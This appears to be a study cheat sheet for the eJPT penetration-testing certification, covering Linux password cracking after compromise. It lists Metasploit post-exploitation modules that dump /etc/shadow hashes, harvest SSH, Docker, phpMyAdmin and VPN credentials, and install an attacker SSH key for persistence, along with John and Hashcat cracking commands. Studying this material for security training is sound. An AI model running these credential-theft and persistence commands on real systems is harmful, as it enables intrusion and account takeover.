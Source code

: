 [[Root 𖣂]] | [[eJPT - Cheat Sheets]] | [[eJPT - README]]

<hr>

# Password Cracker: Linux

- `/etc/shadow` - This file contains hashed passwords for all local users.
- `/etc/passwd` - Holds basic user info, but not the actual password hashes.

**Use the post exploitation module to dump the system users hashes**

```shell 
use post/linux/gather/hashdump
set SESSION 1
exploit
loot
```

**Run the auxiliary module to find the plain text password of the root user.**

```shell
use auxiliary/analyze/crack_linux
set SHA512 true
run
```

The module does **not go out and find hashes by itself**. It depends on the fact that:
1. You (or a post-exploitation module) have already **dumped the hashes** (e.g., from `/etc/shadow`)
2. Metasploit **stored those hashes** in its internal database (via `loot`, `creds`, or `post modules`)
3. `analyze/crack_linux` reads those stored hashes and cracks them

**Using John**

```shell
john --format=sha512crypt <hash_file> --wordlist=<wordlist>
john --format=sha512crypt /root/.msf4/loot/....shadow.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

<br>

# Dumping Hashes and Enumeration with MSF modules

```shell
use post/multi/gather/ssh_creds
# Extracts stored SSH credentials (usernames, passwords, keys) from the target system.

use post/multi/gather/docker_creds
# Gathers Docker-related credentials and configuration files from the target.

use post/linux/gather/hashdump
set VERBOSE true
# Dumps password hashes from the /etc/shadow file on a compromised Linux system.

use post/linux/gather/ecryptfs_creds
# Retrieves credentials and keys used for eCryptfs-encrypted home directories.

use post/linux/gather/enum_psk
# Enumerates pre-shared keys (PSKs) used in VPN or wireless configurations on Linux systems.

post/linux/gather/enum_xchat
set XCHAT true
# Extracts stored credentials and logs from the XChat IRC client.

use post/linux/gather/phpmyadmin_credsteal
# Steals stored login credentials from phpMyAdmin configuration files.

use post/linux/gather/pptpd_chap_secrets
# Retrieves usernames and passwords from the PPTP VPN chap-secrets file.

use post/linux/manage/sshkey_persistence
# Installs an attacker-controlled SSH public key on the target to maintain persistent access.
```

<br>

# Cracking with Hashcat

```shell
# Identify the correct mode for SHA-512 (Linux shadow format)
hashcat --help | grep 1800  # 1800 = sha512crypt

# Run Hashcat (mode 1800 for SHA-512, attack mode 0 for dictionary attack)
hashcat -m 1800 -a 0 /root/.msf4/loot/...shadow.txt /usr/share/wordlists/rockyou.txt

# Hashcat will display: <hash>:<plaintext_password>
```
